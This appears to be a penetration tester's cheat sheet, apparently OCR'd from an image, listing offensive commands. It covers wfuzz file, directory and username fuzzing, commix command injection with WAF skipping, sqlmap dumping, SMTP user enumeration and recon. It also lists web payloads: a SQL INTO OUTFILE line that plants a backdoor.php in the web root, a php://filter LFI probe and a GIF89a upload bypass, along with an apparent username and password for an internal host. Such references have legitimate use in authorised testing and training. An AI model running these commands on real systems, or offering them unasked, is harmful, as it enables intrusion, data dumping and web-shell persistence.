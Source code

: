 ===AUTHENTICATED FILE FUZZING:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-medium-files.txt --hc 404 -d "SESSIONID=value" "$URL"

===FUZZ Directories:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"

wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/combined_directories.txt --hc 404 "$URL"

===FUZZ FILES:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
|
LARGE WORDS:
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-words.txt --hc 404 "$URL"
|
USERS:
wfuzz -c -z file,/opt/SecLists/Usernames/top-usernames-shortlist.txt --hc 404,403 "$URL"

Proxying File/Dirbusting
http 192.168.235.224 steve Password123!
proxychains wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-small-files-lowercase.txt --hc 404 "http://127.0.0.1:8000/FUZZ"
===Command Injection with commix, ssl, waf, random agent.
commix --url="https://supermegaleetultradomain.com?parameter=" --level=3 --force-ssl --skip-waf --random-agent

===SQLMap
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
sqlmap -u $URL --threads=2 --time-sec=10 --level=4 --risk=3 --dump
/SecLists/Fuzzing/alphanum-case.txt

===Social Recon
theharvester -d domain.org -l 500 -b google

===Nmap HTTP-methods
nmap -p80,443 --script=http-methods  --script-args http-methods.url-path='/directory/goes/here'

===SMTP USER ENUM
smtp-user-enum -M VRFY -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $ip
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $ip
smtp-user-enum -M RCPT -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $ip
smtp-user-enum -M EXPN -U /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -t $ip


===Command Execution Verification - [Ping check]
tcpdump -i any -c5 icmp

#Check Network
netdiscover /r 0.0.0.0/24

#INTO OUTFILE D00R
SELECT “” into outfile “/var/www/WEROOT/backdoor.php”;

LFI?
#PHP Filter Checks.
php://filter/convert.base64-encode/resource=

UPLOAD IMAGE?
GIF89a1
